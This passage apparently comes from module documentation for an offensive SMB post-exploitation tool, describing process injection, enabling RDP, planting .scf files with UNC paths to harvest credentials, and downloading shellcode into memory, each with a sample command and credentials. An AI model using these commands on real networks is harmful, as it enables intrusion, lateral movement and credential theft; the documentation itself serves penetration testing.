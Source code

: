 Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False 

**Options:**
```
    PATH     Path to dll/exe to inject
    PROCID   Process ID to inject into (default: current powershell process)
    EXEARGS  Arguments to pass to the executable being reflectively loaded (default: None)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M pe_inject 
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## rdp                       
Enables/Disables RDP  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False  

**Options:**
```
    ACTION  Enable/Disable RDP (choices: enable, disable)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M rdp
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## scuffy                    
Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False 

**Options:**
```
    SERVER      IP of the SMB server
    NAME        SCF file name
    CLEANUP     Cleanup (choices: True or False)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M scuffy
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## shellcode_inject          
Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script